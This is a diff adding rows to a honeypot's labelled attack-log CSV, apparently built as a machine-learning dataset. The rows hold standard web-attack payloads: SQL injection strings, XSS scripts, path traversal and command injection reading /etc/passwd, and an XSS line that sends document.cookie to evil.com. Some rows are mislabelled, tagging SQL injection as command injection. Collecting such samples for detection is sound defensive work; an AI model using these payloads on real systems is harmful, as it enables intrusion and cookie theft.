

Before and after one commit to BlackVenom7405/honeypot, a CSV file: ml_dataset/raw_logs.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/ml_dataset/raw_logs.csv
+++ b/ml_dataset/raw_logs.csv
+row 15: 2026-03-05T20:01:52.823539 | 127.0.0.1 | brute_force_attempt | username=admin password=password
+row 16: 2026-03-05T20:03:59.647053 | 127.0.0.1 | sql_injection | username=admin' OR '1'='1 password=password
+row 17: 2026-03-05T20:04:02.690812 | 127.0.0.1 | xss | username=admin password=<script>alert('XSS')</script>
+row 18: 2026-03-05T20:04:05.718444 | 127.0.0.1 | path_traversal | file=..%2F..%2F..%2F..%2Fetc%2Fpasswd
+row 19: 2026-03-05T20:04:08.749840 | 127.0.0.1 | path_traversal | cmd=%3Bcat+%2Fetc%2Fpasswd
+row 20: 2026-03-05T20:04:11.815561 | 127.0.0.1 | xss | name=Hacker email=test@test.com message=<script>fetch('http://evil.com?c=' + document.cookie)</scr
+row 21: 2026-03-05T20:04:14.870362 | 127.0.0.1 | sql_injection | email=admin@gsi.corp' OR '1'='1
+row 22: 2026-03-05T20:04:17.918161 | 127.0.0.1 | brute_force_attempt | username=admin password=wrongpassword
+row 23: 2026-03-06T12:38:29.402698 | 127.0.0.1 | Command Injection | username=admin' OR '1'='1 password=password
+row 24: 2026-03-06T12:38:32.469489 | 127.0.0.1 | Cross-Site Scripting (XSS) | username=admin password=<script>alert('XSS')</script>
+row 25: 2026-03-06T12:38:35.532975 | 127.0.0.1 | path_traversal | file=..%2F..%2F..%2F..%2Fetc%2Fpasswd
+row 26: 2026-03-06T12:38:38.571350 | 127.0.0.1 | path_traversal | cmd=%3Bcat+%2Fetc%2Fpasswd
+row 27: 2026-03-06T12:38:41.644387 | 127.0.0.1 | Cross-Site Scripting (XSS) | name=Hacker email=test@test.com message=<script>fetch('http://evil.com?c=' + document.cookie)</scr
+row 28: 2026-03-06T12:38:44.710963 | 127.0.0.1 | Command Injection | email=admin@gsi.corp' OR '1'='1
+row 29: 2026-03-06T12:38:47.802714 | 127.0.0.1 | Brute Force Login | username=admin password=wrongpassword
+row 30: 2026-03-06T12:38:50.902747 | 127.0.0.1 | web_shell_detection | filename=shell.php hash=86b0eea46ef9d06f7bfadbd02632f60828c4eb2cd3de3d47e4e9c0291d532778 size=30
+row 31: 2026-04-24T11:49:42.117384 | 127.0.0.1 | Command Injection | username=admin' OR '1'='1 password=password
+row 32: 2026-04-24T11:49:45.185602 | 127.0.0.1 | Cross-Site Scripting (XSS) | username=admin password=<script>alert('XSS')</script>
+row 33: 2026-04-24T11:49:48.218565 | 127.0.0.1 | path_traversal | file=..%2F..%2F..%2F..%2Fetc%2Fpasswd
+row 34: 2026-04-24T11:49:51.270226 | 127.0.0.1 | path_traversal | cmd=%3Bcat+%2Fetc%2Fpasswd
```
Also changed, not shown: 29 added rows elsewhere in this file, 31 other files.
